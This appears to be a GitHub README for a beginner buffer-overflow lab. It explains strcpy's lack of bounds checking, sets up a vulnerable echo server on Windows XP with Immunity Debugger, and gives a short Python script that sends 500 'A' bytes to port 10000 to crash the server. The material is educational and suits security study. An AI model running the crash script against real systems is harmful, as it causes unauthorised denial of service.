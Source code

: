 # sampling a buffer overflow #

* crashing the program
* code in python
* analyze crash

using immunity debugger 1.85 on windows xp

the input we send to the program is stored in a buffer. strcopy copies a string from a source to a destination. the problem is that there is no cap on the lenght of the string in strcpy, which means if the size of the input buffer which is going to hold the string is small, and the user sends a very large string, this would end up overflowing that buffer which leads to a corruption in that stack which overrides things like the return address and ends up crashing the program.


##  ## server / client connection ##

basic echo server using strcpy, running on port 10000, connecting using nc and testing functionality. 

![1](images/1.PNG)


## ## python exploit ##

see file strcpy.py

```python
#!/usr/bin/python

import socket
import sys

# ipv4 address family and tcp socket
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# connecting as client. user input ip and port 10000
sock.connect((sys.argv[1], 10000))

# sending 500 "A's"
buffer = "A" * 500

# sending buffer
sock.send(buffer)

# receive response from server
print sock.recv(1024)

sock.close()
```


## ## run exploit ##

after sending our buffer, the program crashed with windows displaying a error report.


![4](images/4.PNG)













